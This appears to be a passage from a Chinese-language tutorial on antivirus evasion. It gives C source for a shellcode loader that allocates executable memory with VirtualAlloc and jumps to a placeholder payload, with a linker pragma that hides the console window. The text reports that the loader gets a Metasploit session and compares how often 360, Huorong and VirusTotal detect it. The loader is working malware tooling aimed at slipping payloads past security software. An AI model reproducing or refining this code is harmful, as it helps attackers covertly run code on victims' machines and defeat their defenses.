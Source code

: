 VT：

![image-20220530115749310](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301157438.png)

### 方法2 申请动态内存加载（VT免杀率36/69）

下面的代码会申请一段动态内存，然后加载shellcode。

```c
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

unsigned char shellcode[] =
"shellcode";


void main()

{
	// 原po此处内存报错，已修改
    LPVOID Memory;

    Memory=VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    memcpy(Memory, shellcode, sizeof(shellcode));

    ((void(*)())Memory)();

}
```

visual studio 2019进行编译，关闭杀软，msf中可正常上线：

![image-20220530134959565](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301349630.png)

打开杀软，360和火绒均可查杀（原po火绒静态和动态都可查杀，360杀毒和卫士没有反应）。

virustotal.com上查杀率为36/69（原po为24/71）。

受控机没有C环境，执行时缺少`VCRUNTIME140D.dll`和`ucrtbased.dll`，需要手动安装。

![image-20220530135423356](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301354403.png)

360：

![image-20220530135541816](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301355884.png)

火绒：

![image-20220530135217482](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205301352552.png)

VT：

